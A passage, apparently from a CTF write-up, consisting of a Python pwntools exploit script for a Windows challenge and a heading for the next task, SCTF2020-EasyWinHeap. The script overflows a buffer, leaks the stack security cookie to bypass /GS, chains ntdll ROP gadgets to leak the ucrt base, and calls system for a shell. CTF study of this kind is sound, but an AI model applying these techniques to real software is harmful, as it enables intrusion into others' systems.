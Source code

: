 ```py
payload = 'a'*0x100
payload += p64(gs_value)+p64(0)*2
payload += p64(ntdll_base+p_rdx_rcx_r8_r9_r2)+p64(0)+p64(pe_base+cookie_offset)+p64(0)*4
payload += p64(ntdll_base+p_rbx)+p64(1)
payload += p64(pe_base+puts_offset)
p.recvuntil("input:\r\n")
p.send(payload)
p.recvuntil("a"*0x100)
p.recvline()
security_cookie = u64(p.recvn(6).ljust(8,'\x00'))
log.success("security cookie => " + hex(security_cookie))
old_rsp = security_cookie ^ gs_value
log.success("old rsp => " + hex(old_rsp))
new_rsp = old_rsp + 0x188
input_addr = new_rsp + 0x20
new_gs = new_rsp ^ security_cookie

log.success("new rsp => " + hex(new_rsp))
log.success("new gs => " + hex(new_gs))

payload = 'a'*0x100
payload += p64(new_gs)+p64(0)*2
payload += p64(ntdll_base+p_rdx_rcx_r8_r9_r2)+p64(0)+p64(pe_base+read_import)+p64(0)*4
payload += p64(ntdll_base+p_rbx)+p64(1)
payload += p64(pe_base+puts_offset)
p.recvuntil("input:\r\n")

p.send(payload)
p.recvuntil("a"*0x100)
p.recvline()
ucrt = u64(p.recvn(6).ljust(8,'\x00'))
ucrt_base = ucrt - 0x17bc0
log.success("ucrt base => " + hex(ucrt_base))

new_rsp = new_rsp + 0x188
new_gs = new_rsp ^ security_cookie
payload = 'a'*0x100
payload += p64(new_gs)+p64(0)*2
payload += p64(ntdll_base+p_rdx_rcx_r8_r9_r2)+p64(0)+p64(ucrt_base+cmd_address)+p64(0)*4
payload += p64(ucrt_base+system_address)
p.recvuntil("input:\r\n")
p.send(payload)
p.interactive()

```

## SCTF2020-EasyWinHeap

### 程序逻辑 & 漏洞利用
